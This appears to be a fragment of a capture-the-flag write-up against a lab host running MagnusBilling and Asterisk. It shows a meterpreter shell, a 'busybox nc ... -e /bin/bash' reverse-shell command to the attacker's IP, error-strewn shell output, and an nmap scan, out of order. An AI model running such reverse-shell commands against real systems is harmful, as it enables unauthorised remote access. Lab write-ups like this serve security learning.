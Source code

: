 
### getting to shell of target  by shell

```jsx

meterpreter > shell
Process 2078 created.
Channel 2 created.
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
busybox nc 10.23.89.97 4444 -e /bin/bash
ls
/bin/bash: line 1: l: command not found
/bin/bash: line 2: sls: command not found
/bin/bash: line 12: user.txt: command not found
/bin/bash: line 18: sl: command not found
/bin/bash: line 21: cd: .ssh: Permission denied
/bin/bash: line 22: sl: command not found
/bin/bash: line 24: cd: .ssh: Permission denied

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
/bin/bash: line 27: cd: HOME not set
/bin/bash: line 32: cd: /usr/bin/fail2ban-client: Not a directory
eo)-[~]
              
```

### nmap scan

```jsx
                                                                                                                                                                      
┌──(neo㉿neo)-[~]                                                                  
└─$ nmap -sC -A -p22,80,3306,5038 10.10.201.100
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-18 13:09 EDT
Nmap scan report for 10.10.201.100
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.201.100/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
```